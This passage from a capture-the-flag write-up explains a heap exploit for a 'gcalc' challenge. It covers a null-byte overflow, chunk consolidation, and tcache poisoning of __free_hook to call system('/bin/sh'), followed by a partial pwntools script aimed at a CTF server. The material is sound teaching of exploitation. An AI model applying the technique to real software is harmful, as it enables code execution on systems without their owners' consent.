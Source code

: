 Then, we do the following corruption:
- Free chunk A
- Write to chunk B, forge a chunk, and overflow into chunk C's `size` parameter with a null byte
- Free chunk C
- Free chunk B

Chunk A gets added to the unsorted bin list because the 0x100 tcache is already filled.

Chunk B needs a certain 0x120 size written to the `prev_size` field of chunk C (Chunk A's 0x100 + Chunk B's 0x20)

Chunk C is freed, causing backwards consolidation with what malloc thinks is just chunk A, but is really chunk A + B.

Finally, chunk B is freed, putting it onto the tcache and setting us up for tcache poisoning.

After that, all we have to do is allocate a chunk from chunk A + B to overwrite the `fwd` pointer of the free B chunk.

We can overwrite `fwd` with `__libc_free_hook`, write `system` to it, and free a chunk that has `/bin/sh` written to it.


```python
from pwn import *

e = ELF("./gcalc")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = e
context.terminal = ["konsole", "-e"]

p = process([e.path])
p = remote("challenges.ctfd.io", 30253)


context.log_level="debug"
gdb.attach(p, """c""")


def add_cat(weight, amt):
    p.sendlineafter(">", "1")
    p.sendlineafter(")", str(weight))
    p.sendlineafter("?", str(amt))


def set_grades(cat, sz, grades):
    p.sendlineafter(">", "2")
    p.sendlineafter(")", str(cat))
    p.sendlineafter("):", str(sz))
    
    for i in grades:
        p.sendlineafter(":", str(i))


def generate():
    p.sendlineafter(">", "3")



add_cat(100, 1056)      #1
add_cat(100, 20)        #2

set_grades(1, 1, [1, 1])


```
